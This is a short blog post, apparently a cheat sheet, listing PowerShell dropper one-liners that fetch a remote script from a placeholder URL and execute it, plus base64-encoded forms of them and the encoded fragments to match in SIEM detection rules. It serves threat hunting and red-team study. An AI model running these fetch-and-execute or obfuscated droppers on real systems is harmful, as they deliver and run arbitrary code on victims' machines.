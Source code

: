 ```yaml
---
layout: post
title:  "Powershell Scripts for Red Teaming"
date:   2025-06-16 21:00:00 +1000
categories: scripts
---
```


## Red teaming powershell scripts. Droppers and more.

Things to look out for when threat hunting and creating SIEM rules. Also helpful for red teaming/malware development

---

### Droppers
--- Unencoded Droppers ---
- ``` powershell -Command "Invoke-WebRequest -Uri 'https://google.com/safe-script.ps1' -OutFile $env:TEMP\Word.ps1; & $env:TEMP\Word.ps1" ``` (Downloads to disk)
- ``` powershell -Command "iex(New-Object Net.WebClient).DownloadString('https://google.com/safe-script.ps1')" ``` (Downloads to memory)

--- Encoded Droppers ---
- ```powershell -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAC0AQwBvAG0AbQBhAG4AZAAgACIASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcABzADoALwAvAGcAbwBvAGcAbABlAC4AYwBvAG0ALwBzAGEAZgBlAC0AcwBjAHIAaQBwAHQALgBwAHMAMQAnACAALQBPAHUAdABGAGkAbABlACAAJABlAG4AdgA6AFQARQBNAFAAXABXAG8AcgBkAC4AcABzADEAOwAgACYAIAAkAGUAbgB2ADoAVABFAE0AUABcAFcAbwByAGQALgBwAHMAMQAiAA==```
- ```powershell -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAC0AQwBvAG0AbQBhAG4AZAAgACIAaQBlAHgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AZwBvAG8AZwBsAGUALgBjAG8AbQAvAHMAYQBmAGUALQBzAGMAcgBpAHAAdAAuAHAAcwAxACcAKQAiAA==```

Patterns to look out for when threat hunting as potentially malicious base64 encoded commands
- SQBuAHYAbwBrAGUALQBX (Invoke-WebRequest)
- aQBlAHgAIAAoAE4AZQB3 (iex (New-Object Net.WebClient))

